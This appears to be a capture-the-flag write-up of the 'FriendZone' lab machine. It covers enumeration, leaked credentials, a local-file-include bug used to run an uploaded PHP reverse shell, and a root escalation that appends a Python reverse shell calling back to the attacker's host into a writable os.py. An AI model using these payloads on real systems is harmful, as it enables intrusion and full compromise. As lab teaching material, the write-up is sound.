









## INTIAL ENUMERATION

```shell
nmap -sV -sC 10.129.43.230                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-01 10:14 CET
Nmap scan report for 10.129.43.230
Host is up (0.096s latency).
Not shown: 993 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Friend Zone Escape software
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_http-title: 404 Not Found
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2025-12-01T11:14:28+02:00
|_clock-skew: mean: -39m59s, deviation: 1h09m15s, median: 0s
| smb2-time: 
|   date: 2025-12-01T09:14:27
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.45 seconds
```


## SMB ENUMERATION

I’ll go to `smbmap` for a quick look at the shares and my permissions:

```shell
smbmap -H 10.10.10.123  
[+] Finding open SMB ports.... 
[+] Guest SMB session established on 10.10.10.123... 
[+] IP: 10.10.10.123:445 Name: friendzone.red 
	Disk Permissions 
	---- ----------- 
	print$ NO ACCESS 
	Files NO ACCESS 
	general READ ONLY 
	Development READ, WRITE 
	IPC$ NO ACCESS
```


It’s interesting to see the comment on `Files` as `/etc/Files`. I can guess that perhaps `general` and `Development` follow the same pattern. But I don’t have to guess, as there’s one more thing that’s particularly useful here - the `nmap` script, `smb-enum-shares.nse`.

```shell
nmap -sV -sC 10.129.43.230 --script smb-enum-shares.nse -p 445
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-01 10:28 CET
Nmap scan report for friendzone.red (10.129.43.230)
Host is up (0.050s latency).

PORT    STATE SERVICE     VERSION
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: FRIENDZONE

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.129.43.230\Development: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\Development
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.129.43.230\Files: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files /etc/Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\hole
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.129.43.230\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (FriendZone server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.129.43.230\general: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\general
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.129.43.230\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.84 seconds

```


What’s particularly neat about the `nmap` script output is that it tells me the path on target to the share (even if it’s a bit messed up and applies a `C:` to the start of each string). That’ll come in handy later.

The `general` share has a single file, but it looks like it’ll be useful:

```shell
smbclient -N //10.10.10.123/general 
Try "help" to get a list of possible commands. 
smb: \> ls 
	. D 0 Wed Jan 16 15:10:51 2019 
	.. D 0 Sun Feb 10 20:46:10 2019 
	creds.txt N 57 Tue Oct 9 19:52:42 2018 
					9221460 blocks of size 1024. 5795120 blocks available 
smb: \> get creds.txt 
getting file \creds.txt of size 57 as creds.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
```

```shell
cat creds.txt 
creds for the admin THING: 

admin:WORKWORKHhallelujah@#
```


## WEB PORT 80

The site doesn’t have much going on, other than to offer another the domain, “friendzoneportal.red”:


Running `gobuster` gives two more paths, but both are trolls:

```shell
gobuster -u http://friendzone.red/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x txt,php -t 20 

===================================================== 
Gobuster v2.0.1 OJ Reeves (@TheColonial) 

===================================================== 
[+] Mode : dir 
[+] Url/Domain : http://friendzone.red/ 
[+] Threads : 20 
[+] Wordlist : /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
[+] Status codes : 200,204,301,302,307,403 
[+] Extensions : txt,php 
[+] Timeout : 10s 
===================================================== 
2019/02/11 17:11:05 Starting gobuster ===================================================== 
/wordpress (Status: 301) 
/robots.txt (Status: 200) 

===================================================== 
2019/02/11 17:15:59 Finished 
=====================================================
```

`robots.txt` is just a troll:

```shell
curl http://friendzone.red/robots.txt seriously ?!
```


`/wordpress` is an empty dir:




## WEB PORT 443

The HTTPS site is different from the HTTP site. The main site is just a meme with an animated gif:


`gobuster` shows a couple more paths:

```shell
gobuster -k -u https://friendzone.red/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 20 -x txt,php 

===================================================== 
Gobuster v2.0.1 OJ Reeves (@TheColonial) 

===================================================== 
[+] Mode : dir 
[+] Url/Domain : https://friendzone.red/ 
[+] Threads : 20 
[+] Wordlist : /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
[+] Status codes : 200,204,301,302,307,403 
[+] Extensions : txt,php 
[+] Timeout : 10s ===================================================== 
2019/02/11 17:16:04 Starting gobuster 

===================================================== 
/admin (Status: 301) 
/js (Status: 301) 

=====================================================
2019/02/11 17:24:51 Finished 
=====================================================
```

`/admin` is an empty dir just like `/wordpress` was on http:



`/js` has something in it:



Going to `https://friendzone.red/js/js/` gives a page:



This doesn’t have much meaning to me yet. Might be an allusion to DNS zones. Or it might just be a troll.


## DNS ENUMRATION

I’ll do that with `dig`. I’ll start with `friendzone.htb`, and get nothing:

```shell
dig axfr friendzone.htb @10.10.10.123

; <<>> DiG 9.11.5-P1-1-Debian <<>> axfr friendzone.htb @10.10.10.123 
;; global options: +cmd 
; Transfer failed.
```

Since I have a domain name in the TLS certificate, I’ll try that:

```shell
dig axfr friendzone.red @10.129.43.230 

; <<>> DiG 9.20.11-4+b1-Debian <<>> axfr friendzone.red @10.129.43.230
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 148 msec
;; SERVER: 10.129.43.230#53(10.129.43.230) (TCP)
;; WHEN: Mon Dec 01 11:31:39 CET 2025
;; XFR size: 8 records (messages 1, bytes 289)
```


I can also try the domain I got on the first webpage, “friendzoneportal.red”:

```shell
dig axfr friendzoneportal.red @10.129.43.230

; <<>> DiG 9.20.11-4+b1-Debian <<>> axfr friendzoneportal.red @10.129.43.230
;; global options: +cmd
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzoneportal.red.   604800  IN      AAAA    ::1
friendzoneportal.red.   604800  IN      NS      localhost.
friendzoneportal.red.   604800  IN      A       127.0.0.1
admin.friendzoneportal.red. 604800 IN   A       127.0.0.1
files.friendzoneportal.red. 604800 IN   A       127.0.0.1
imports.friendzoneportal.red. 604800 IN A       127.0.0.1
vpn.friendzoneportal.red. 604800 IN     A       127.0.0.1
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 140 msec
;; SERVER: 10.129.43.230#53(10.129.43.230) (TCP)
;; WHEN: Mon Dec 01 11:31:03 CET 2025
;; XFR size: 9 records (messages 1, bytes 309)

```

I’ll update my hosts file for each of these.

The page `administrator1.friendzoneportal.red` presents a login form:


This is where the creds from SMB will be useful. On logging in, it returns a message:



This site is “untested application” with some sloppy text including an error message:



If I add the suggested parameters to the url and visit `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=timestamp`:



At this point, it would be useful to have a `ffuf` run of the directory. I’ll run `ffuf` with php extension because this is a php site:

```shell
fuf -u https://administrator1.friendzone.red/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -e .php

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://administrator1.friendzone.red/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 349, Words: 20, Lines: 10, Duration: 
login.php               [Status: 200, Size: 7, Words: 2, Lines: 1, Duration: 71ms]
dashboard.php           [Status: 200, Size: 101, Words: 12, Lines: 1, Duration: 81ms]
timestamp.php           [Status: 200, Size: 36, Words: 5, Lines: 1, Duration: 101ms]
.php                    [Status: 403, Size: 309, Words: 22, Lines: 12, Duration: 60ms]
                        [Status: 200, Size: 2873, Words: 393, Lines: 123, Duration: 70ms]
[WARN] Caught keyboard interrupt (Ctrl-C)

```

So timestamp.php is another page. I can check it out by visiting it:

```shell
curl -k https://administrator1.friendzone.red/timestamp.php 

Final Access timestamp is 1549992438
```


## FIND LFI

Based on the recon above, there’s a likely local file include (LFI) in this page. Both parameters have potential.

#### image_id

The image id, such as `a.jpg` is a full file name. I’ll try giving it a php page, which it would load if that file is being shown using `include` in php. Unfortunately, it just shows a broken image:



Looking at the source, I see ``. I could play with XSS here, and see if I can get it to load a script. For example, if I set `image_id=' onerror='javascript: alert("XXS HERE");`, I get a pop-up:



#### pagename

Since the given example case is `timestamp`, and there’s a `timestamp.php` in the same directory, I can assume that this is likely doing a `include($_GET["pagename"] . ".php")`. I can test this by having it point to other php pages.

Visiting `https://administrator1.friendzone.red/login.php` returns:


If I change `pagename` to login, I see `login.php` in the bottom corner:


I can use this LFI to read source code for these pages using php filters. If I visit `pagename=php://filter/convert.base64-encode/resource=dashboard`, I can see a long base64 string on the page:


Decoding that gives me the source for the page:

```
<?php

//echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
//echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
echo "<title>FriendZone Admin !</title>";
$auth = $_COOKIE["FriendZoneAuth"];

if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
 echo "<br><br><br>";

echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";

if(!isset($_GET["image_id"])){
  echo "<br><br>";
  echo "<center><p>image_name param is missed !</p></center>";
  echo "<center><p>please enter it to show the image</p></center>";
  echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
 }else{
 $image = $_GET["image_id"];
 echo "<center></center>";

 echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
 include($_GET["pagename"].".php");
 //echo $_GET["pagename"];
 }
}else{
echo "<center><p>You can't see the content ! , please login !</center></p>";
}
?>
```

I can get other pages as well. For example, if I get `upload.php`, I can see it is in fact a fake uploads page:

```
<?php

// not finished yet -- friendzone admin !

if(isset($_POST["image"])){

echo "Uploaded successfully !<br>";
echo time()+3600;
}else{

echo "WHAT ARE YOU TRYING TO DO HOOOOOOMAN !";

}

?>
```

I want to use this LFI to include a webshell so I can run commands. I’ll use my smb access to drop a simple php command shell into the Development share, which `nmap` told me was `/etc/Development`.

```shell
smbclient -N //10.129.43.230/Development -c 'put php-reverse-shell.php shell.php'

putting file php-reverse-shell.php as \shell.php (21.6 kb/s) (average 21.6 kb/s)
```

Now, on visiting `https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/shell, I get shell on my nc:

```shell
nc -lnvp 4444                                                 
listening on [any] 4444 ...
connect to [10.10.16.9] from (UNKNOWN) [10.129.43.230] 58230
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 11:35:12 up 21 min,  0 users,  load average: 0.07, 0.04, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@FriendZone:/$
```


In the `/var/www/` directory, there’s folders for all the different sites, as well as an sql conf file:

```shell
www-data@FriendZone:/var/www$ ls

admin       friendzoneportal       html             uploads
friendzone  friendzoneportaladmin  mysql_data.conf

www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ

```


I'll use this credentials to log in with SSH:

```shell
ssh friend@10.129.43.230                                                      
The authenticity of host '10.129.43.230 (10.129.43.230)' can't be established.
ED25519 key fingerprint is SHA256:ERMyoo9aM0mxdTvIh0kooJS+m3GwJr6Q51AG9/gTYx4.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:6: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.43.230' (ED25519) to the list of known hosts.
friend@10.129.43.230's password: 
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

You have mail.
Last login: Thu Jan 24 01:20:15 2019 from 10.10.14.3
friend@FriendZone:~$
```


## USER FLAG

```shell
friend@FriendZone:~$ cat user.txt
43725bbf4140464440635d95d29c2256
```

## ROOT FLAG

I was looking around the file system, and I noticed a script in `/opt/server_admin/`:

```shell
friend@FriendZone:/opt/server_admin$ ls 

reporter.py
```

It says it’s incomplete, and doesn’t do much of anything:

```c
friend@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer

```


I uploaded [pspy](https://github.com/DominicBreuker/pspy) to target, and noticed that root was running this script every two minutes:

```shell
2025/12/01 12:12:01 CMD: UID=0     PID=1917   | /usr/bin/python /opt/server_admin/reporter.py 
2025/12/01 12:12:01 FS:               ACCESS | /usr/bin/python2.7
2025/12/01 12:12:01 CMD: UID=0     PID=1916   | /bin/sh -c /opt/server_admin/reporter.py 
2025/12/01 12:12:01 CMD: UID=0     PID=1915   | /usr/sbin/CRON -f 

2025/12/01 12:14:01 CMD: UID=0     PID=1922   | /bin/sh -c /opt/server_admin/reporter.py 
2025/12/01 12:14:01 FS:                 OPEN | /usr/bin/python2.7
2025/12/01 12:14:01 CMD: UID=0     PID=1921   | /usr/sbin/CRON -f 

```


Finally, I noticed that the python module, `os`, was writable:

```shell
ind -type f -writable -ls
    20473     28 -rwxrwxrwx   1 root     root        26106 Dec  1 12:18 ./os.py
```

I can use the following command to see the python path order:

```shell
friend@FriendZone:~$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python36.zip
/usr/lib/python3.6
/usr/lib/python3.6/lib-dynload
/usr/local/lib/python3.6/dist-packages
/usr/lib/python3/dist-packages
```

I _think_ that blank line at the top indicates the current directory of the script.

The most common case for this kind of hijack is finding the directory containing the python script writable. In that case, I could drop an `os.py` in next to `reporter.py` and it would load there before checking `/usr/lib/python2.7/`. In this case, I actually can’t write to `/opt/server_admin/`. But I can write directly to the normal version of this module.

I’ll open the file in `vi`, and go to the bottom. There, I’ll add a shell to myself:

```c
...[snip]...
def _pickle_statvfs_result(sr):
    (type, args) = sr.__reduce__()
    return (_make_statvfs_result, args)

try:
    _copy_reg.pickle(statvfs_result, _pickle_statvfs_result,
                     _make_statvfs_result)
except NameError: # statvfs_result may not exist
    pass

import pty
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.9",443))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```

A few moments later I get a shell as root:

```shell
nc -lnvp 443                                       
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.129.43.230] 58842
root@FriendZone:~# whoami
root
```

From there, grab root.txt:

```shell
root@FriendZone:~# cat root.txt
22925472f2ed9c1d7ffb999f60b76000

```

